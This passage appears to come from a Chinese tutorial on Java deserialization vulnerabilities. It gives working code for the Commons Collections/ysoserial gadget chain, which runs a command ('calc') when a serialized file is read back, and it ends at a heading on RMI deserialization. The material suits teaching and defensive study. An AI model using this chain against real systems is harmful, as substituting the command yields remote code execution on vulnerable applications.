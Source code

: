 实例：将序列化类内容写入到一个文件，该类中存在注入执行程序，然后在另一个程序中反序列化该类，注入程序会自动执行。

```
public static void main(String[] args) throws Exception {
    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    Transformer chain = new ChainedTransformer(transformers) ;
        
    final Map innerMap = new HashMap();
    final Map lazyMap = LazyMap.decorate(innerMap, chain);//包装
        
    final Map mapProxy = Gadgets.createMemoitizedProxy(lazyMap, Map.class);
        
    final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(mapProxy);
        
    //序列化对象到文件
    File f = new File("d:/payload.bin");
    ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
    out.writeObject(handler);
    out.flush();
    out.close();
}
```

注：利用ysoserial工具创建一个测试类

执行反序列化操作类：

```
public static void main(String[] args) {
    File f = new File("d:/payload.bin");
    //从文件中反序列化
    ObjectInputStream in=null;
    try {
        in = new ObjectInputStream(new FileInputStream(f));
        Object obj=in.readObject();
        System.out.println(obj);
        in.close();
    } catch (Exception e) {
        e.printStackTrace();
    } 
}
```

注：从文件中读取序列化类，在进行反序列化时会弹出计算器。

### 8. 模拟RMI的反序列化漏洞
